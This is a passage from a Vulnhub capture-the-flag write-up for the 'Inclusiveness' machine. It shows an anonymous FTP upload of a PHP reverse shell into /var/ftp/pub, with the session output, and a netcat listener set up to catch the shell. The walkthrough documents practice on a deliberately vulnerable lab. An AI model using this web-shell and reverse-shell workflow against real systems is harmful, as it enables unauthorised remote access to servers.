 We have identified the FTP service earlier with nmap. The FTP service did allow us to upload files to the server as anonymous user. If we know where the files are stored on the machine we can try to execute is and gain a reverse shell. Let's try to read the configuration file for the vsftpd server.

![Image](/assets/img/WriteUp/Vulnhub/Inclusiveness/Pasted image 20240401153506.png){: width="700" height="400" }

We can see that the files are stored in `/var/ftp/` folder. We can upload files into the `pub` folder. So basically we should find our file in `/var/ftp/pub`.
Our next step is to configure a reverse PHP web shell and upload it via the FTP service to the target.


```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(emvee㉿kali)-[~/Documents/Vulnhub]
└─$ nano php-reverse-shell.php 
```
Now we have to upload it as anonymous to the target.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub]
└─$ ftp $ip -a                        
Connected to 10.0.2.64.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls -la
229 Entering Extended Passive Mode (|||35655|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Feb 08  2020 .
drwxr-xr-x    3 0        0            4096 Feb 08  2020 ..
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||57016|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 .
drwxr-xr-x    3 0        0            4096 Feb 08  2020 ..
226 Directory send OK.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||46857|)
150 Ok to send data.
100% |**********************************************************************************************************************************************************************************************|  5491       96.97 MiB/s    00:00 ETA
226 Transfer complete.
5491 bytes sent in 00:00 (4.38 MiB/s)
ftp> exit
221 Goodbye.
```
As soon as everything is set on the target we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub]
└─$ nc -lvp 1234              
listening on [any] 1234 ...

```
Now we should visit our reverse PHP webshell in the browser.